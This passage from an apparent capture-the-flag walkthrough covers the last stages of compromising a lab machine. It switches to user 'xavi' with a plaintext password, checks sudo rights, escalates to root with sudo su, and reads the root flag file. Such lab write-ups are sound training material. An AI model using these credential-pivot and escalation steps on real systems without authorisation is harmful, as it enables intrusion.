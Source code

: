 Pivot to `xavi`:

```bash
su xavi
Password: Passwordxavia
```

---

## V. Phase 4: Final Escalation to Root

### A. Exploiting Sudo Misconfiguration

**Objective**
Check `xavi`’s sudo rights and leverage any misconfigurations to gain root privileges.

**Checking Permissions and Analysis**

```bash
sudo -l
...
User xavi may run the following commands on ip-10-201-48-99:
    (ALL: ALL) ALL
```

This `(ALL: ALL) ALL` indicates full privileges, allowing execution as any user, including root.

**Exploitation**

```bash
sudo su
```

---

### B. Capturing the Root Flag

**Objective**
Read the final flag from `/root` to confirm complete system compromise.

**Execution**

```bash
cd /root
cat root.txt
```
